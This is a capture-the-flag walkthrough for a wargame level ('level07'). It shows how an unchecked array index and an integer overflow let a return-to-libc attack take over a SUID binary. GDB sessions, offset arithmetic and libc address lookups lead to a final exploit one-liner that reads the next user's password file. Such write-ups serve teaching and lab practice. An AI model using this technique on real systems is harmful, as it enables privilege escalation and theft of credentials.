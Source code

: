 # Walkthrough - Level 07

The program has SUID permissions from the user `level08`, which will allow us to obtain their flag.

# Disassembly

- `memset` zeros the program arguments and environment variables
- A loop waiting for commands on stdin: `store`, `read`, and `quit`
- A 400-byte buffer to store `int` values (`v6`)
- Functions `read_number` and `store_number` that use the buffer `v6`

# Exploit

The goal is to overwrite the EIP to exploit a return-to-libc.
The `store_number` function stores a number at a given index but doesn't check if the index is within the buffer (`v6`). We can therefore overflow the buffer to find the address of the EIP.
To do this, let's use GDB:
```bash
gdb ./level07
(gdb) b *0x080489f1 # Address of the return "quit"
(gdb) run
----------------------------------------------------
Welcome to wil's crappy number storage service!
----------------------------------------------------
Commands:
store - store a number into the data storage
read  - read a number from the data storage
quit  - exit the program
----------------------------------------------------
wil has reserved some storage :>
----------------------------------------------------
Input command: quit
Breakpoint 1, 0x080489f1 in main ()
(gdb) p $sp
$1 = (void *) 0xffffd71c
```

The EIP address is therefore at 0xffffd71c
Then we need to find the address of the start of the buffer to know the offset between the start and EIP.
```bash
gdb ./level07
(gdb) b *0x08048732 # Address of the start of main just after stack allocation
(gdb) b *0x080489f1 # Address of the return "quit"
(gdb) run
(gdb) p $sp
$1 = (void *) 0xffffd530
(gdb) continue
Input command: store
Number: 4
Index: 40
Completed store command successfully
Input command: store
Number: 5
Index: 41
Completed store command successfully
Input command: quit
(gdb) x/500xb 0xffffd530
0xffffd530: 0xe8 0xd6 0xff 0xff 0x14 0x00 0x00 0x00
0xffffd538: 0xc0 0xfa 0xfc 0xf7 0x14 0xc7 0xfd 0xf7
0xffffd540: 0x98 0x00 0x00 0x00 0xff 0xff 0xff 0xff
0xffffd548: 0x0c 0xd8 0xff 0xff 0xb8 0xd7 0xff 0xff
0xffffd550: 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00
0xffffd558: 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00
0xffffd560: 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00
0xffffd568: 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00
0xffffd570: 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00
0xffffd578: 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00
0xffffd580: 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00
0xffffd588: 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00
0xffffd590: 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00
0xffffd598: 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00
0xffffd5a0: 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00
0xffffd5a8: 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00
0xffffd5b0: 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00
0xffffd5b8: 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00
0xffffd5c0: 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00
0xffffd5c8: 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00
0xffffd5d0: 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00
0xffffd5d8: 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00
0xffffd5e0: 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00
0xffffd5e8: 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00
0xffffd5f0: 0x00 0x00 0x00 0x00 0x04 0x00 0x00 0x00
0xffffd5f8: 0x05 0x00 0x00 0x00 0x00 0x00 0x00 0x00
0xffffd600: 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00
```

As we can see, the address of index 40 is `0xffffd5f4`, so the address of the start of the buffer is:
```
40 * 4 = 0xA0
0xffffd5f4 - 0xA0 = 0xffffd554
```

Let's calculate the offset between the start of the buffer and EIP:
```
0xffffd71c - 0xffffd554 = 0x1C8
```

This is 456 bytes, so the index of EIP is `456 / 4 = 114`
Since 114 is a multiple of 3, the `store_number` function prevents storing a number at this index. We will therefore exploit an integer overflow.
```
UINT_MAX / 4 + INDEX = NEW_INDEX
4294967296 / 4 + 114 = 1073741938
```

Now we just need the address of `system` and the address of the string `/bin/sh` for the return-to-libc.
```bash
gdb ./level07
(gdb) p system
$2 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```
The address of system is therefore `4159090384`
We still need the address of the string `/bin/sh`
```bash
gdb ./level07
(gdb) info proc map
process 1936
Mapped address spaces:
Start Addr End Addr Size Offset objfile
0x8048000 0x8049000 0x1000 0x0 /home/users/level07/level07
0x8049000 0x804a000 0x1000 0x1000 /home/users/level07/level07
0x804a000 0x804b000 0x1000 0x2000 /home/users/level07/level07
0xf7e2b000 0xf7e2c000 0x1000 0x0
0xf7e2c000 0xf7fcc000 0x1a0000 0x0 /lib32/libc-2.15.so
0xf7fcc000 0xf7fcd000 0x1000 0x1a0000 /lib32/libc-2.15.so
0xf7fcd000 0xf7fcf000 0x2000 0x1a2000 /lib32/libc-2.15.so
0xf7fcf000 0xf7fd0000 0x1000 0x1a2000 /lib32/libc-2.15.so
0xf7fd0000 0xf7fd4000 0x4000 0x0
0xf7fd8000 0xf7fdb000 0x3000 0x0
0xf7fdb000 0xf7fdc000 0x1000 0x0 [vdso]
0xf7fdc000 0xf7ffc000 0x20000 0x0 /lib32/ld-2.15.so
0xf7ffc000 0xf7ffd000 0x1000 0x1f000 /lib32/ld-2.15.so
0xf7ffd000 0xf7ffe000 0x1000 0x20000 /lib32/ld-2.15.so
0xfffdd000 0xffffe000 0x21000 0x0 [stack]
(gdb) shell
RELRO STACK CANARY NX disabled No PIE No RPATH No RUNPATH /home/users/level07/level07
level07@OverRide:~$ strings -a -t x /lib32/libc-2.15.so | grep "/bin/sh"
15d7ec /bin/sh
```

The address of the string `/bin/sh` is `0xf7e2c000 + 0x15d7ec = 0xf7f897ec` so `4160264172`
Here is the complete command:
```bash
(python -c 'print("store")'; python -c 'print("4159090384")'; python -c 'print("1073741938")'; python -c 'print("store")';python -c 'print("4160264172")'; python -c 'print("116")'; python -c 'print("quit")'; echo "cat /home/users/level08/.pass") | ./level07
```

[Return-to-libc](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc)